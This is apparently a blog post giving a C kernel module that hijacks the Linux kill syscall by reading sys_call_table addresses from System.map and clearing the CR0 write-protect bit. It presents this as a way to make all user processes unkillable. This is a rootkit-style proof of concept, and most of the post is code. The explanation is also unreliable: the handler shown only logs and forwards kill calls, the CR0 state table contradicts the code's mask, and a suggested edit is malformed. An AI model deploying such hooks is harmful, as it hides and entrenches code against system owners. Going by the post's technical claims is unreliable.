 Today I come with a small demo of a hook in Ring0
that I just finished, which will serve to make all the processes in Ring3 immortal.

Since kernel versions 2.6, write permissions have been removed,  leaving read-only permissions and the syscall table cannot be exported.
So we must find another method to hooke the syscall table, one of them is looking in "boot/System.map" where you can find the addresses to the syscall(in my case System.map-3.2.6).

The standard **__NR_kill** is to hook **kill_pid** but if you want another function just look at the syscall_table and look for the correct **NR**.
In order to allow read/write and make a successful hook we need to momentarily disable the CR0(control register) bit which is in charge of protecting memory sections against writes.
CR0 has 2 states:<br/>
```
0x0000 = read/write mode.
0x0001 = write mode.
```

The 2 functions that I will use for this are native_read_cr0 and native_write_cr0 which will allow us to alter their states.<br/>
In my case the System.map-3.2.6 file contained the pointer to the *syscall table* and *kill pid* at the following addresses:
```
25940 - c1562120 R sys_call_table
2169 - c105bb80 T kill_pid
```

So on your systems it may not work, this is why I mentioned above to look at the **System.map** file, if you try it on your own....
Once the driver is installed if we try to kill any process, this is what happens.

![1](/images/1.png)

Once uninstalled, the processes can be killed normally:

![2](/images/2.png)

Code:
```C
/*
	Author: NvK
	Agradecimientos: http://memset.wordpress.com/2010/12/03/syscall-hijacking-kernel-2-6-systems/ por la explicacion.
	Descripción: Hace todos los proceso en ring3 inmortales
*/
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/unistd.h>
#include <linux/mm.h>
#include <linux/highmem.h>

#include <asm/cacheflush.h>
#include <asm/io.h>
#include <asm/setup.h>
#include <asm/system.h>
#include <asm/pgtable.h>
#include <asm/pgalloc.h>

#define ELF_INITED 		".text.data"
#define ELF_BEGIN		".text.text"

static unsigned long kill_calls= 0;
// Puntero a la tabla
unsigned long *sys_call_table= (unsigned long*)0xc1562120;
// Función restaurada...
asmlinkage int (*original_kill)(pid_t, int);

int call_x86_hook_kill(pid_t pid, int sig)
{
	printk(KERN_ALERT "\n[+] x86 kill Hooked %ld", kill_calls++);
	return (*original_kill)(pid, sig);
}

static int __section(.init.text)__attribute__((cold)) notrace INIT_KERNEL(void)
{
	// desactivar bit de control
	native_write_cr0(native_read_cr0()&(~0x10000));
	
	original_kill= (void *)sys_call_table[__NR_kill];
	sys_call_table[__NR_kill]= call_x86_hook_kill;
	
	// activar bit de control(volver a su estado normal)
	native_write_cr0(native_read_cr0() | 0x10000);
  
  return 0;
}

static void __section(.exit.data) EXIT_KERNEL(void)
{
	native_write_cr0(native_read_cr0()&(~0x10000));
	sys_call_table[__NR_kill]= original_kill;
	native_write_cr0(native_read_cr0() | 0x10000);
	
	return;
}

module_init(INIT_KERNEL);
module_exit(EXIT_KERNEL);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Nvk");
MODULE_DESCRIPTION("ring0 x86 hook - [kill poc]");
```

if you just want to know how many times the system has made the syscall change the following line:

> int call_x86_hook_kill(pid_t pid, int sig)

for this one:

> asmlinkage call_x86_hook_kill(pid_t pid, int sig)
